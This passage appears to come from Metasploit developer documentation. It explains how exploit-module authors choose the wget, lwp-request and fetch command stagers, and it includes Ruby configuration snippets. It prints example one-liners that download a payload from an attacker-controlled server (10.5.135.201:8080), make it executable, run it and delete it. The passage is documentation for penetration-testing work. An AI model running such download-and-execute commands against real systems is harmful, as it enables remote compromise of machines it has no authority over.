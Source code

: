 To use the wget stager, either specify your CmdStagerFlavor in the metadata:
```ruby
'CmdStagerFlavor' => [ 'wget' ]
```

Or set the :wget key to `execute_cmdstager`:
```ruby
execute_cmdstager(flavor: :wget)
```

## LWP Request Command Stager - Multi Platform
The [lwp-request](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/cmdstager/lwprequest.rb) command stager is similar to the curl command stager, except instead of using curl to download the file on the target host, it uses the `lwp-request` command. It requires users to specify a `SRVHOST` and `SRVPORT` values and will start an HTTP server to host the payload file. An example of that looks similar to this:
```bash
lwp-request -m GET http://10.5.135.201:8080/mdkwKcdGCtU > /tmp/OKOnDYwn;chmod +x /tmp/OKOnDYwn;/tmp/OKOnDYwn;rm -f /tmp/OKOnDYwn

```

To use the lwprequest stager, either specify your CmdStagerFlavor in the metadata:
```ruby
'CmdStagerFlavor' => [ 'lwprequest' ]
```

Or set the :lwprequest key to `execute_cmdstager`:
```ruby
execute_cmdstager(flavor: :lwprequest)
```

## Fetch Command Stager - BSD Only
The [fetch](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/cmdstager/fetch.rb) command stager is similar to the curl command stager, except instead of using curl to download the file on the target host, it uses the `fetch` command. It requires users to specify a `SRVHOST` and `SRVPORT` values and will start an HTTP server to host the payload file. An example of that looks similar to this:
```bash
fetch -qo /tmp/UGWuPPcy http://10.5.135.201:8080/mdkwKcdGCtU;chmod +x /tmp/UGWuPPcy;/tmp/UGWuPPcy;rm -f /tmp/UGWuPPcy
```

To use the fetch stager, either specify your CmdStagerFlavor in the metadata:
```ruby
'CmdStagerFlavor' => [ 'fetch' ]
```

Or set the :fetch key to `execute_cmdstager`:
```ruby
execute_cmdstager(flavor: :fetch)
```

